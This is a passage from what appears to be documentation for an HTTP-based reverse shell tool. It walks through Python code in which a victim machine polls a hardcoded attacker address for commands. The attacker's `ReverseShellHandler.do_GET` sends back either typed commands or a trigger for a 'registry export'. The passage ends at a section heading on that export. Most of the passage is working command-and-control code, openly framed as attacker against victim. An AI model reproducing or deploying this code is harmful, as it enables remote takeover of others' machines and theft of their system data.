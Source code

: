 ```python
IP = 'http://' + '172.19.69.245' + ':8080'
...
req = requests.get(IP)
command = req.text
```

Once that `GET` request is received by the attacker its `ReverseShellHandler` which is currently serving port 8080 will be called.
If the `ReverseShellHandler` class provides an implementation for `GET`, called `do_GET(self)`, the `ReverseShellHandler` object will call it.

If the server is set to manual it will request input from the attacker.
Otherwise, the server will send `!` to the victim.

```python
def do_GET(self):
    """
    When the server is hit with a GET request
    it requires input from the attacker that will
    be sent back to the victims machine

    If manual, allow input from user
    If not manual, run registry export

    """

    if MANUAL:
        command = input(Fore.YELLOW + ">> ")
        print(Style.RESET_ALL)
    else:
        command = '!'

    # boilerplate http
    self.send_response(200)
    self.send_header("Content-type", "text/html")
    self.end_headers()

    # send command to victim machine
    self.wfile.write(command.encode())
```

Manual is determined by the amount of command line arguments send to **server.py** when it is ran.
By default server.py will always have one command line argument; the path of the running process.
If the attacker provides any commands at all manual will be set to `False` otherwise it is `True`.

```python
if len(sys.argv) == 2:
    MANUAL = True
else:
    MANUAL = False
```

### 6. Registry file export
